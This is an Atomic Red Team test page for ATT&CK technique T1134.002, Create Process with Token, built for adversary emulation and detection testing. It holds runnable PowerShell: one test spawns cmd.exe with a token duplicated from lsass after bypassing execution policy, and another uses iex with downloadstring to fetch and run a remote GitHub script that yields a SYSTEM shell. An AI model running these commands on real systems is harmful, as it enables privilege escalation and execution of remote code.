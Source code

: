# T1134.002 - Create Process with Token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/002)
<blockquote>

Adversaries may create a new process with an existing token to escalate privileges and bypass access controls. Processes can be created with the token and resulting security context of another user using features such as <code>CreateProcessWithTokenW</code> and <code>runas</code>.(Citation: Microsoft RunAs)

Creating processes with a token not associated with the current user may require the credentials of the target user, specific privileges to impersonate that user, or access to the token to be used. For example, the token could be duplicated via [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) or created via [Make and Impersonate Token](https://attack.mitre.org/techniques/T1134/003) before being used to create a process.

While this technique is distinct from [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001), the techniques can be used in conjunction where a token is duplicated and then used to create a new process.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Token Manipulation](#atomic-test-1---access-token-manipulation)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-token-manipulation-technique)


<br/>

## Atomic Test #1 - Access Token Manipulation
This Action demonstrates how an access token for a specific program can spawn another program under a different owner. 
Adversaries can leverage access tokens to run programs under a different user not only to achieve privilege escalation but also to evade detection by blending in with normal user activity. 
This Action will query all processes and list the process name and owner.It will then make a copy of an existing token to create a new instance of cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** dbf4f5a9-b8e0-46a3-9841-9ad71247239e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope Process Bypass -Force
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
Get-Process | Select ProcessName,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
& "$PathToAtomicsFolder\T1134.002\src\GetToken.ps1"; [MyProcess]::CreateProcessFromParent((Get-Process lsass).Id,"cmd.exe")
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique
Get SYSTEM shell - Pop System Shell using Token Manipulation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ccf4ac39-ec93-42be-9035-90e2f26bcd92






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem
```






<br/>

